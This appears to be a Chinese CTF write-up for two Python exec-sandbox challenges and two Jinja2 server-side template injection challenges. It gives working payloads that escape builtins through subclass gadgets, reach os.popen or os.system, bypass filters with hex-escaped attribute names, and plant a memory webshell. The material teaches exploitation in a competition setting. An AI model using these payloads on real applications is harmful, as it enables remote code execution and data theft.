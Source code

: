 
### python沙箱1

审计源码得知本题会将 post 进来的数据直接 exec，但没有回显。

直接使用[这里](https://www.cnblogs.com/meraklbz/p/18572680)现成就有的内存马，小改写，把 {{}} 去掉之后作为 code 参数的值 POST，然后直接用 cmd 作为参数发 GET 请求就是 shell。

### python沙箱2

本题 exec 的时候限制了全局变量，内置函数全置空了，要恢复使用内存马的条件太麻烦，我们还是直接执行单条命令得了。由于本题还是会渲染 rce.html，我们由附件得知这个文件的路径是 ./templates/rce.html，因此只需要把结果输出到这里面即可。

网上面随便找个 breakjail 的payload，把命令一改完事。

```python
code={{[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']("os").system("cat ../flag > templates/rce.html")}}
```
###  python ssti1

`name={{().__class__.__bases__[0].__subclasses__()}}` 把所有子类搞出来，然后数第 140 个是 `os._wrap_close`，其具有 popen 方法。因此用如下 payload：

`name={{().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['popen']('whoami').read()}}`

### python ssti2

**前置知识**

参考： https://blog.csdn.net/qq_38154820/article/details/111399386

1. 在python中，可用以下表示法可用于访问对象的属性，代替点号

```python
{{().__class__}}              # 本题需要十六进制过检测，不考虑
{{()["__class__"]}}           # 本题在["__bases__"]时未知原因没进基类，给了个 tuple['__base__']
{{()|attr("__class__")}}      # 只能用这个了，这样可以访问对象的属性和方法，得到方法再加()就能调用
{{getattr('',"__class__")}}   # 本题环境中 getattr undefined
```

2. 使用 | 后会导致后面的内容统一被当成 Jinja 模板的过滤器，此时用 [] 访问列表和字典必然报错 `expected token 'end of print statement', got '['`。因此我们使用 `|attr('__getitem__')(x)` 来访问列表和字典，其中 x 可为列表的索引和字典的键。

**做题过程**

1. 得到基类的所有子类的列表：

```python
()|attr("\x5F\x5Fclass\x5F\x5F")|attr("\x5F\x5Fbases\x5F\x5F")|list|first|attr("\x5F\x5Fsubclasses\x5F\x5F")()
```

2. 得到 `os._wrap_close` 类的 `__init__.__globals__`：

```python
name={{()|attr("\x5F\x5Fclass\x5F\x5F")|attr("\x5F\x5Fbases\x5F\x5F")|list|first|attr("\x5F\x5Fsubclasses\x5F\x5F")()|attr('\x5F\x5Fgetitem\x5F\x5F')(140)|attr("\x5F\x5F\x69\x6e\x69\x74\x5F\x5F")|attr("\x5F\x5F\x67\x6c\x6f\x62\x61\x6c\x73\x5F\x5F")}}
```

   **这步得到的信息要手动分析，可以看出是一个字典，包含了一大堆方法和对象。**

3. (1).得到上述字典中以 `__builtins__` 为键的子字典中的 `__import__` 方法，然后导入 os 再 popen。

```python
name={{()|attr("\x5F\x5Fclass\x5F\x5F")|attr("\x5F\x5Fbases\x5F\x5F")|list|first|attr("\x5F\x5Fsubclasses\x5F\x5F")()|attr('\x5F\x5Fgetitem\x5F\x5F')(140)|attr("\x5F\x5F\x69\x6e\x69\x74\x5F\x5F")|attr("\x5F\x5F\x67\x6c\x6f\x62\x61\x6c\x73\x5F\x5F")|attr("\x5F\x5Fgetitem\x5F\x5F")("\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f")|attr("\x5F\x5Fgetitem\x5F\x5F")("\x5F\x5Fimport\x5F\x5F")("\x6f\x73")|attr("popen")("cat ../flag")|attr("read")()}}
```

3. (2).上述字典中以 popen 为键的值即为 popen 方法，直接调用。
```python
name={{()|attr("\x5F\x5Fclass\x5F\x5F")|attr("\x5F\x5Fbases\x5F\x5F")|list|first|attr("\x5F\x5Fsubclasses\x5F\x5F")()|attr('\x5F\x5Fgetitem\x5F\x5F')(140)|attr("\x5F\x5F\x69\x6e\x69\x74\x5F\x5F")|attr("\x5F\x5F\x67\x6c\x6f\x62\x61\x6c\x73\x5F\x5F")|attr("\x5F\x5Fgetitem\x5F\x5F")("popen")("cat ../flag")|attr("read")()}}
```

后续又经过研究，在我们得到一个 python 的类对象的时候，一般可以从以下几个方面利用。

```python
cas=[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0] # 以这个类作为示例
cas()._module.__builtins__['__import__'] # 得到这个类的实例对应模块对象的内置函数里的 __import__ 方法
cas.__init__.__builtins__['__import__']  # 使用__init__ 初始化方法里的内置函数
cas.__init__.globals                     # 可以获得相关模块的函数和一些内置函数
```
